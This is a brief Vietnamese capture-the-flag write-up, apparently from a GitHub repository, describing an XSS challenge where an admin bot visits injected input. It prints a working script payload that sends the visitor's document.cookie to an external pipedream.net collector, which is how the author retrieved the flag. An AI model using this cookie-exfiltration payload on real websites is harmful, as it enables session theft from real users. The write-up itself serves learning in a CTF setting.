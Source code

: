 
Bài này đợt Bot hơi lâu nên mình cứ tưởng làm sai, đến gần cuối giải rảnh mới làm lại.
payload: chèn vào input để lấy cookie.
``` javascript
<script> var i = new Image(); i.src='https://1e0a2081c69184f020ee0d31c1339808.m.pipedream.net?cookie='+document.cookie; </script>
```
Đợt một lúc vào pipedream nhận flag thôi :))
